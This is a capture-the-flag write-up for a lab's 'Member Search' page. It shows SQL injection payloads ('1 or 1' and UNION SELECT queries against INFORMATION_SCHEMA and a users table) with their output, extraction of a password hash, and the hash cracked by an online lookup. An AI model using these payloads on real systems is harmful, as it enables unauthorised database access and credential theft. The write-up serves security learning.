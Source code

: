 # Member Search

Looks like some sort of SQL injection

Entering `1 or 1` in the search field shows (I assume) all users in database:

```
ID: 1 or 1
First name: Barack Hussein
Surname : Obama

ID: 1 or 1
First name: Adolf
Surname : Hitler

ID: 1 or 1
First name: Joseph
Surname : Staline

ID: 1 or 1
First name: Flag
Surname : GetThe
```

Maybe the code looks something like this

```js
query("SELECT firstname, lastname FROM users WHERE id = " + input)
```

This gives us some good information about users

```
1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

```
ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : user_id

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : first_name

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : last_name

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : town

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : country

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : planet

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : Commentaire

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : countersign
```

Querying `Commentaire` returns this

```
ID: 1 UNION SELECT user_id, Commentaire FROM users
First name: 5
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

And querying `countersign` returns a hashed password

```
ID: 1 UNION SELECT user_id, countersign FROM users
First name: 5
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Pasting that hash into Google gives you `FortyTwo`
